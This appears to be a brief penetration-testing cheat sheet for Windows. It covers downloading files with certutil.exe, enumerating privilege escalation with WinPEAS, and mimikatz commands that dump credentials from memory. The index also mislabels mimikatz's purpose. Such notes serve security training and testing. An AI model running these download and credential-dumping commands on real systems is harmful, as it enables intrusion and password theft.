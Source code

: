 # Windows (Tools)

- [certutil.exe](#cerutil.exe): an http / file-download client built into windows
- [WinPEAS](#winpeas): privilege escalation vector detection
- [mimikatz](#mimikatz): privilege escalation vector detection

## certutil.exe

An http / file-download client built into windows ([docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)).

Usage:

```
certutil.exe -f ${URL} ${OUTPUT_FILENAME}
```

## WinPEAS

A privilege escalation vector detection script for Windows ([docs](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)) ([releases](https://github.com/carlospolop/PEASS-ng/releases)).

Usage: (just invoke the binary for the script to run)

```
winpeas.exe
```

## mimikatz

Extracts in-memory credentials (usernames + password hashes) ([src](https://github.com/ParrotSec/mimikatz)).

Usage: (just invoke the binary for an interactive prompt)

```
mimikatz.exe
```

Some commands:

- `privilege::debug` escalates the privilege of mimikatz
- `log` will start a log file in the current working directory
- `lsadump::lsa /inject` dumps usernames and password *hashes* with the 'inject' method
- `sekurlsa::logonpasswords` same as above but more thorough / more info
